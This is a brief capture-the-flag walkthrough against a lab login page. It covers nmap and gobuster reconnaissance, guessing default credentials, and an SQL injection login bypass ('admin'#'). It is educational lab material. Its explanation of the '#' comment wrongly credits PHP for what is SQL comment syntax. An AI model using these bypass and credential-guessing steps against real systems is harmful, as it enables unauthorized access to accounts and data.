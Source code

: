 1. Scan all the ports and default scripts and determine service and version of open ports
```bash
nmap -sV -sC [ip machine]
```
--> port 80/tcp - open - http
--> http-server-header: Apache/2.4.38 (Debian) / http-title: Login


2. Search the IP of the machine on our browser
--> We can see a basic Login Page, but we don't have the user and the password yet.


3. Check out the web directories with Gobuster
```shell
gobuster dir -u http://[ip machine]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
--> We have not found helpful information


4. Try with deafault credentials
```shell
admin - admin
root - root
user - user
guest - guest
administrator - password
```
--> There wasn't the correct credentials


5. Test the log in form for a possible SQL Injection vulnerability
```php
# We can notice that in PHP language, "#" is used to make a comment, so we can conclude that if we use a "#" in the username, the website will read it like a comment, so it won't read the password.

--> Username: admin'#
	Password: [random]
```
--> **MACHINE PWNED!** Now, we are into the website and we can Capture the Flag.
